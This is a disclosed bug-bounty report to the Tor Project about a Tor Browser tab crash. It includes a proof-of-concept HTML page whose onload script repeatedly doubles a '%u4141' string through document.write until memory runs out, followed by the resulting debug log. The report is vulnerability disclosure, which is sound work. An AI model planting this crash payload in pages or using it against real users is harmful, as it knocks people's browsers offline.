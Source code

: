 # Crashes/Buffer at 0x2C0086,name=PBrowser::Msg_Destroy 

## Report Details
- **Report ID**: 281682
- **URL**: https://hackerone.com/reports/281682
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-10-22T09:24:25.700Z
- **Disclosed**: 2017-10-24T09:42:01.243Z

## Reporter
- **Username**: dhiraj-mishra
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: torproject

## Vulnerability Information
Hi Team, 

Steps to Reproduce: 
1. Open Tor 
2. Navigate to string.html
Where string.html :
```
<script>
function tor()
 {
  
    var uristring = unescape("%u4141%u4141");
      
    for(i=0; i <= 50 ; ++i) 
 {
        uristring+=uristring;
        document.write(uristring);
    }    
    document.write(uristring);
}
</script>
</head>
<body onload="tor()">
</body>
```
3. 'Gah! This tab has crashed.

However, running it to debug mode generates the below exception :

```
###!!! [Parent][MessageChannel] Error: (msgtype=0x2C0086,name=PBrowser::Msg_Destroy) Channel error: cannot send/recv

[Parent 23125] WARNING: waitpid failed pid:23182 errno:10: file /home/debian/build/tor-browser/ipc/chromium/src/base/process_util_posix.cc, line 268
Unable to update the static FcBlanks: 0x0600
Unable to update the static FcBlanks: 0x0601
Unable to update the static FcBlanks: 0x0602
Unable to update the static FcBlanks: 0x0603
Unable to update the static FcBlanks: 0x06dd
Unable to update the static FcBlanks: 0x070f
Unable to update the static FcBlanks: 0x2028
Unable to update the static FcBlanks: 0x2029
Unable to update the static FcBlanks: 0xfff9
Unable to update the static FcBlanks: 0xfffa
Unable to update the static FcBlanks: 0xfffb
[Parent 23125] WARNING: pipe error (58): Connection reset by peer: file /home/debian/build/tor-browser/ipc/chromium/src/chrome/common/ipc_channel_posix.cc, line 322
[Parent 23125] WARNING: pipe error (54): Connection reset by peer: file /home/debian/build/tor-browser/ipc/chromium/src/chrome/common/ipc_channel_posix.cc, line 322

###!!! [Parent][MessageChannel] Error: (msgtype=0x2C0086,name=PBrowser::Msg_Destroy) Channel error: cannot send/recv

[Parent 23125] WARNING: waitpid failed pid:23224 errno:10: file /home/debian/build/tor-browser/ipc/chromium/src/base/process_util_posix.cc, line 268 
```

WFM in Debain attaching string.html and PoC for reference, request you to please have a look.





Regards
Dhiraj  

## Attachments
- string.html
- Tor.mp4

